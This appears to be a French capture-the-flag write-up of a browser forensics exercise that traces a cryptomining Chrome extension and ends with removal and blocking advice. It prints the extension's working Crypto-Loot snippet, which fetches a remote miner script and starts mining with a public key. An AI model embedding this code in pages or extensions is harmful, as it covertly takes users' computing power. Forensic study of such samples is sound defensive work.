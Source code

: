 # Browser Forensics – Cryptominer

## Scénario

Notre SOC a détecté du trafic lié au minage de cryptomonnaie provenant d’un poste fraîchement joint au réseau. L’équipe d’incident response a constaté que le trafic provenait d’applications navigateur. Après collecte des données clés du navigateur avec **FTK Imager**, l’objectif est d’analyser le fichier `.ad1` pour identifier la source du minage.

---

## Outils utilisés

* **FTK Imager** : montage et extraction du contenu de l’image `.ad1`.
* **Autopsy / Analyse manuelle** : inspection des profils, extensions et fichiers JavaScript.
* Éditeur de texte / SQLite Browser pour lire les fichiers `Preferences`, `History`, `Cookies`.

---

## Analyse et preuves

### 1. Profils de navigateur

Extraction du dossier `User Data` de Chrome depuis l’image :

* **Nombre de profils Google Chrome présents :** **2**

### 2. Thème installé

Dans le fichier `Preferences` du profil Chrome, on trouve l’URL suivante :

```
http://atavi.com/browser-themes/?from=chrome-themes&tid=earth_in_space
```

* **Nom du thème :** **Earth in Space**

### 3. Extension malveillante (cryptominer)

Dans le répertoire `Extensions` du profil Chrome, l’extension suspecte a été trouvée avec les métadonnées suivantes :

* **Extension ID :** `egnfmleidkolminhjlkaomjefheafbbb`
* **Extension Name :** `DFP Cryptocurrency Miner`
* **Description :** `Allows staff members to mine cryptocurrency in the background of their web browser`

Ces informations proviennent des fichiers `manifest.json` et des métadonnées d’extension exportées depuis l’image.

### 4. JavaScript du miner

Le fichier `background.js` de l’extension contient le code suivant extrait :

```html
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner = new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0', {
    threads:3, autoThreads:false, throttle:0.2,
});
miner.start();
</script>
```

* **Nom du web miner JS :** **Crypto-Loot**
* **Public key utilisée :** `b23efb4650150d5bc5b2de6f05267272cada06d985a0`
* **Hashes par seconde observés (d’après le script) :** **20**
* **URL officielle Twitter du service :** `https://twitter.com/CryptoLootMiner`

Les événements et métriques sont également exposés via `miner.getHashesPerSecond()`, `miner.getTotalHashes()` et `miner.getAcceptedHashes()`.

---

## Timeline d’investigation (résumé des actions)

1. Monter l’image `.ad1` dans FTK Imager (`File → Add Evidence Item → Image File`).
2. Parcourir `Users\<username>\AppData\Local\Google\Chrome\User Data\`.
3. Exporter les fichiers `Preferences`, le dossier `Extensions` et `background.js` pour analyse.
4. Rechercher dans `Preferences` le paramètre `theme` et dans `manifest.json`/`background.js` de l’extension les références au miner.
5. Confirmer le miner via la présence de `https://crypto-loot.com/lib/miner.min.js` et la clé publique.

---

## Conclusion

L’enquête démontre que le poste compromise exécutait un **cryptominer JavaScript (Crypto-Loot)** via une extension Chrome malveillante (`DFP Cryptocurrency Miner`). Le thème installé (`Earth in Space`) et l’extension étaient présents dans les profils utilisateur. Le miner utilisait la clé publique `b23efb46...` et tournait à ~**20 H/s** selon la métrique collectée dans le script.

### Recommandations opérationnelles

* **Désinstaller/blacklister** l’extension `egnfmleidkolminhjlkaomjefheafbbb` sur tous les postes.
* **Révoquer/retirer** l’extension depuis la console de gestion (ou via GPO si possible).
* **Bloquer** les domaines `crypto-loot.com` et les URL associées au niveau du proxy/pare-feu.
* **Analyser** les postes pour autres extensions ou scripts similaires.
* **Mettre à jour** la sensibilisation des utilisateurs sur les extensions non approuvées.

---

## Artefacts pertinents (chemins)

* `Users\<username>\AppData\Local\Google\Chrome\User Data\Default\Preferences`
* `Users\<username>\AppData\Local\Google\Chrome\User Data\Default\Extensions\egnfmleidkolminhjlkaomjefheafbbb\` *(fichiers manifest/background.js/etc.)*

---

## Annexes

* **Public key (miner) :** `b23efb4650150d5bc5b2de6f05267272cada06d985a0`
* **Twitter (official) :** `https://twitter.com/CryptoLootMiner`

---

